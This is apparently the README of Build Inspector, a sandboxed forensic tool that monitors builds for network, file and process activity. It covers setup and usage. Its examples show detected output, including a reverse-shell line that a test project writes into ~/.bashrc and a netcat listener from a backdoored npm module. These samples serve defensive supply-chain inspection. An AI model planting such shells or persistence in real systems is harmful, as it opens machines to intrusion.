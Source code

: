 # Build Inspector

[Build Inspector](https://github.com/srcclr/build-inspector) is a forensic sandbox for buliding source code and gives insight into what's happening during the build of a project. It's language and build system agnostic and is capable of inspecting network activities, file system changes, and running
processes. All build operations happen in a sandboxed environment without
compromising the developer's machine.

## Requirements

- [Ruby](https://www.ruby-lang.org/en/downloads/) (2.2.3 recommended)
- [Vagrant](https://www.vagrantup.com/)

Once you have both Ruby and Vagrant installed, go ahead and install
the Sahara plugin, bundler and this project's dependencies.

```bash
vagrant plugin install sahara
git clone https://github.com/srcclr/build-inspector.git
gem install bundler
bundle install
```

## Running

First, make sure that you have the
[requirements](https://github.com/srcclr/build-inspector#requirements)
and you are inside the repository's directory.

```bash
cd build_inspector
```

Since this tool does not manage Vagrant for you, yet, you'll have to
do it yourself. This step will take a while the first time, but won't
be necessary again. Eventually, this step will be eliminated. Start
Vagrant and build the image:

```bash
vagrant up
```

Once vagrant is started, save a snapshot with:
```bash
vagrant sandbox on
```

### Usage

```
Usage inspector [options] <git repo path>
    -h, --help                       Display this screen
    -n, --no-rollback                Do not roll back the virtual machine state after running
    -v, --verbose                    Be verbose
    -c, --config <PATH>              Use configuration file at <PATH>, default=config.yml
    -p, --process <PATH>             Only process evidence at <PATH>
    -b, --branch <BRANCH>            Clone <BRANCH> from repository URL
        --url                        Git repo path is a URL
        --gem                        Perform a GEM based build
        --gradle                     Perform a Gradle based build
        --maven                      Perform a Maven based build
        --npm                        Perform a NPM based build
```

### Gradle Example

```bash
./inspector --gradle test-repos/TotallyLegitApp
```

The above project has a task called `backdoor` that adds a reverse
connect shell to `~/.bashrc`.

After running, you should see this at the bottom of the output:

```
changed: ~/.bashrc
--- /backup/root/.bashrc	2014-02-19 21:43:56.000000000 -0500
+++ /root/.bashrc	2015-11-08 13:07:40.579626388 -0500
@@ -97,3 +97,5 @@
 #if [ -f /etc/bash_completion ] && ! shopt -oq posix; then
 #    . /etc/bash_completion
 #fi
+
+bash -c "bash -i>&/dev/tcp/localhost/1337 0>&1 &disown"&>/dev/null
```

In addition, you'll have a file that looks like
`evidence-TotallyLegitApp-201523110032412.zip` which has all the
network and process activity, file system changes, and any new processes.

### Bundler Example

```bash
./inspector --gem test-repos/harmless-project
```

This bundler project has a gem that pings Google during its
installation.

Run it with the Build Inspector and you should see a list of domains
that the machine tried to connect to.

```
Hosts contacted:
  www.google.com (74.125.224.113)                                    1.3K
```

### NPM Example

```bash
./inspector --npm test-repos/ann-pee-am
```

Inspecting this NPM project should yield the following output:

```
The following processes were running during the build:
  - /bin/sh -i
  - nc -l 0.0.0.0 8080
```

That's because the NPM project depends on a module that opens a
persistent backdoor using `netcat`.

### Configuration

The tool monitors all network and file system activities. To ignore
hosts or exclude directories from the monitoring, create and add an
`config.yml` in the repository. The `config.yml` file is simply
a YAML file that looks like this:

```yaml
---

commands: bundle install --jobs 2

host_whitelist:
  - 10.0.2.2 # Vagrant's IP
  - 8.8.8.8 # Ignore DNS
  - bundler.rubygems.org
  - rubygems.global.ssl.fastly.net
  - rubygems.org

evidence_files:
  exclude:
    - /home/vagrant/.gem
  include:
    - /etc
```

There are examples for different build systems in the [configs](configs)
directory. You may copy the approriate configs for your build system
to the root of this project or you may write one from scratch.

## Reporting Suspicious Builds

Help us understand what threats are out there in the wild by submitting any suspicious builds you encounter. This helps us direct engineering efforts to better protect against emerging threats and also just makes us feel like we're helping.

To submit a suspicious build, just click this link to create a new issue:
[Suspicious Build Issue Submission](https://github.com/srcclr/build-inspector/issues/new?title=Suspicious%20Build%20Evidence&body=Where%20did%20you%20find%20this%20project%3F%0A%0AWhy%20do%20you%20think%20it%27s%20suspicious%3F%0A%0AAny%20other%20important%20details%3F%0A%0AHow%20are%20you%20doing%20today%3F).

Then, simply upload the evidence zip to the GitHub issue you just created. Thanks in advance!

## Troubleshooting

If you're having a problem, try running `rake vagrant:test` and ensure your environment is setup correctly.

### Gradle Build Fails with java.lang.OutOfMemoryError
A build may work on the host machine but fail with BuildInspector because the Vagrant virtual machine has less memory available than the host machine. There are two ways to work around this issue.

#### Option 1: Modify [Vagrantfile](Vagrantfile)
This is the most direct option. This file is used to setup some properties of the virtual machine. The relevant section is:
```ruby
config.vm.provider 'virtualbox' do |vb|
  vb.customize ['modifyvm', :id, '--natdnsproxy1', 'off']
  vb.customize ['modifyvm', :id, '--natdnshostresolver1', 'off']
  vb.memory = 1024
end
```

Simply adjust `vb.memory = 1024` to some other number such as `vb.memory = 2000` then rebuild the machine with `rake vagrant:rebuild`. The Java VM determines heap space as a portion of total memory available. Increasing the memory will also increase the heap space.

#### Option 2: Adjust Java VM Heap Size
If you're unable to adjust the memory requirements for the Vagrant virtual machine, you can try to tell Gradle to tell the Java VM to allocate more heap space. This can be done by adding the following command to your configuration:

```bash
echo org.gradle.jvmargs=-Xmx2G >> gradle.properties
```

For example, `gradle.yml` is:

```yaml
commands: gradle build
```

After adding this command it would be:

```yaml
commands:
  - echo org.gradle.jvmargs=-Xmx2G >> gradle.properties
  - gradle build
```

## Development

When you want to experiment, just do:
`vagrant sandbox on`

Then, make all the changes you want to the image. If you'd like to save the changes, do:
`vagrant sandbox commit`

Otherwise, you can wipe out the changes with:
`vagrant sandbox rollback`

There are also a number of Rake tasks:
```
rake vagrant:commit    # Commits the machine's state
rake vagrant:destroy   # Destroy Vagrant image
rake vagrant:halt      # Gracefully stop Vagrant
rake vagrant:rebuild   # Equivalent to a `vagrant destroy && vagrant up`
rake vagrant:reload    # Equivalent to a `vagrant halt && vagrant up`
rake vagrant:rollback  # Restores the previously committed machine state
rake vagrant:test      # Check environment to determine if build-inspector should work
rake vagrant:up        # Start Vagrant
rake vagrant:update    # Upgrade Vagrant image
```
